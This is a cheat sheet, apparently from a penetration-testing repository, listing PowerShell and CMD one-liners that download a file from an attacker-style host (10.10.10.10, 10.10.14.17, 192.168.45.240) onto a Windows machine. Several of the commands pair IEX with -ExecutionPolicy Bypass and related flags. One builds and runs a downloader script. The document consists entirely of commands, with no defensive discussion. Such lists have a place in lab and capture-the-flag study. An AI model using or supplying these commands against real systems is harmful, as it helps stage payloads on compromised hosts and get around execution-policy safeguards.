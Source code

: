USING POWERSHELL - 
------------------------------------------------------------------------------------------------------------------


#### 

**Web Content Download**
    
    $webClient.DownloadFile('http://10.10.10.10:80/demo.txt','c:\temp\demo.txt')

**Web Content Download**
    
    powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/demo.txt','c:\temp\demo.txt')

**Web Content Download**
    
    powershell.exe IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10:80/demo.txt','C:\temp\demo.txt')

**Web Content Download**
    
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10/demo.txt','C:\temp\demo.txt')"

**Web Content Download**
    
    powershell.exe Invoke-RestMethod -Uri "http://10.10.10.10/demo.txt" -OutFile "c:\temp\demo.txt"

**Web Content Download**
    
    powershell.exe Invoke-webRequest -Uri "http://10.10.10.10/demo.txt" -OutFile "c:\temp\demo.txt"

**Powershell Wget**
    
    powershell.exe -c wget "http://10.10.14.17/demo.txt" -outfile "c:\temp\demo.txt"

**Powershell Curl**
    
    powershell.exe -c "curl.exe http://10.10.10.10:80/demo.txt c:\temp\demo.txt"

**Powershell IEX**

    echo IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10:80/demo.txt','C:\temp\demo.txt') | powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile
   
**Powershell Direct URI**
    
    iwr -uri http://192.168.45.240/demo.txt -Outfile demo.txt

**Powershell BitsTransfer**

    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://10.10.10.10/demo.txt' -Destination 'c:\temp\demo.txt'"

**Using file**
    
    echo '$storageDir = $pwd' > wget.ps1
    echo '$webclient = New-Object System.Net.WebClient' >> wget.ps1
    echo '$url = "http://10.10.10.10/demo.txt"' >> wget.ps1
    echo '$file = "c:\temp\demo.txt"' >> wget.ps1
    echo '$webclient.DownloadFile($url, $file)' >> wget.ps1

    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
------------------------------------------------------------------------------------------------------------------

USING CMD - 
------------------------------------------------------------------------------------------------------------------

**Web Content Download**
    
    powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/demo.txt','c:\temp\demo.txt')

**Web Content Download**

    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://10.10.10.10/demo.txt' -Destination 'C:\temp\demo.txt'"

**Web Content Download**
    
    powershell.exe -c "$webClient = New-Object System.Net.WebClient; $webClient.DownloadFile('http://10.10.10.10:80/demo.txt','c:\temp\demo.txt')"

**Web Content Download**
    
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10/demo.txt','C:\temp\demo.txt')"


